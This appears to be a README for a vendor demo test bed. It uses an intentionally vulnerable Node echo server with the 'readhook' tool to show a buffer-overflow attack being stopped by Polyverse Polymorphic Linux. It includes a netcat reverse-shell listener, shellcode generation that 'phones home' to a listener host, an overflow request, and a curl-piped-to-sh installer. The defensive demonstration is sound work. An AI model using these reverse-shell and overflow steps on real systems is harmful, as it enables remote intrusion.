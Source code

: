 # node-echo-server
Test bed for using readhook to hook node-echo-server application.

## Running
```
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```

## Stopping
```
docker kill echo
```

## Running interactively
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
node echo-server.js
```

## Polyverse Polymorphic Linux

### 1: Setup Listener for Reverse Shell

#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```
nc -kl 5555
```

### 2: Start Server with Readhook

#### 2.1: Shell-2: Start the container with an interactive shell
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
```

### 2.2: Shell-2: Install readhook
```
apk update && apk add curl wget ca-certificates && update-ca-certificates
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
```

#### 2.3: Shell-2: Run the echo-server with readhook in front of libc
```
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```

#### 2.5: Shell-3: Test that the echo-server is running as expected
```
curl localhost:8080/echo-this-line-of-text
```

### 3: Generate Shell-Code

#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```

#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```
curl localhost:8080/$shellCode
```

#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```

### 4: Install Polyverse Polymorphic Linux

#### 4.1: Shell-2: Add curl and Polyverse Distros
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```

#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```

#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```

#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```
curl localhost:8080/$shellCode
```

#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener

#### 4.6: Shell 2: Confirm that node terminated abnormally

